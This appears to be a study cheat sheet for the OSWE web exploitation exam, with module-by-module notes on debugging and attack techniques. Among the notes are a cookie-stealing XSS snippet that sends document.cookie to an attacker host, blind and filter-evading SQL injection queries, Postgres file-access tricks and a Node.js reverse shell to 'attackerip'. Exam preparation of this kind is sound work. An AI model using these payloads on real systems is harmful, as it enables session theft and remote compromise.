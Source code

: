 # OSWE-cheat-sheet
OSWE-cheat sheet module by module short notes for quick revision for exam:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    <script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    function addImage() {<br>
    var img = document.createElement('img');<br>
    img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    document.body.appendChild(img);<br>
    }<br>
    addImage();<br>
    
4. Set cookie by web developer console<br>
    javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("POST", url, true)<br>
    xhr.send(data)<br>
    
6. XHR GET Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("GET", url, true)<br>
    xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            [mysqld]<br>
            general_log_file = /var/log/mysql/mysql.log<br>
            general_log = 1<br>
    systemctl restart mysql        //Restart MySQL<br>
    tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    echo "any message";<br>
    
4. Dump information about varaible<br>
    var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    mysql> select ascii(substring((select version()),1,1))=53;  /** use with "or" boolean **/<br>
    
8. Create ZIp file using Python2 <br>
    !/usr/bin/python <br>
    import zipfile <br>
    from cStringIO import StringIO<br>

    def build_zip():<br>
        f = StringIO()<br>
        z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)<br>
        z.writestr('folder/file.txt', 'secret')<br>
        z.close()<br>
        zip = open('zip.zip','wb')<br>
        print f.getvalue()<br>
        zip.write(f.getvalue())<br>
        zip.close()<br>
    
    build_zip()<br>

Module : PHP Type Juggling Vulnerability : 
1.  Configure SMTP Server<br>
    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & /* & for run in background */<br>
    
Module : ManageEngine Application Manager AMUserResourcesSyncServlet SQL(Postgres) Injection & RCE : <br>
1.  web.xml determine how URLs mapped<br>
2.  Tool JD-GUI use to decompile java<br>
3.  Find SQL injection vulnerability using below regular expression<br>
        ^.*?query.*?select.*?<br>
4.  Enable postgres logging by uncommenting below line in postgresql.conf file<br>
        log_statement = 'all'<br>
5.  postgre cli
        psql -U username -p 15432  /* p=port, /<br>
6.  Alternative of single quote(') is duble doller sign($$)<br>
7.  decode string in postgres<br>
        select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');<br>
8.  Using CHR and String Concatenation<br>
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);<br>
9.  Accessing the File System in postgres<br>
        COPY <table_name> from <file_name><br>
        COPY <table_name> to <file_name><br>
10. PostgreSQL Extensions<br>
        CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
        
Module : The Bassmaster Plugin (Nodejs) : 
1. JavaScript reverse shell<br>
     var net = require("net"), sh = require("child_process").exec("/bin/bash");<br>
     var client = new net.Socket();<br>
     client.connect(53, "attackerip",<br>
     function(){client.pipe(sh.stdin);sh.stdout.pipe(client);<br>
     sh.stderr.pipe(client);});<br>

Module : DotNetNuke Cookie Deserialization RCE<br>
1. XmlSerializer Limitations<br>
        XmlSerializer is only able to serialize public properties and fields of an object.<br>
2. For better debugging experirence modify the debugging dll in dnSpy tool<br>
          [assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default | DebuggableAttribute.DebuggingModes.DisableOptimizations |
           DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints | DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]
3. XML Serialization & Deserialization method<br>
    XmlSerializer.serialize() and XmlSerializer.deserialize(reader)<br>
4. Java Serialization & Deserialization method<br>
    Deserialization : inputObjectStream.readObject() and Serialization: outputObjectStream.writeObject()<br>
    
Module : ERPNext Authentication Bypass and Server Side Template Injection :<br>
1. Run SMTP Server on Kali <br>
    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25<br>
    
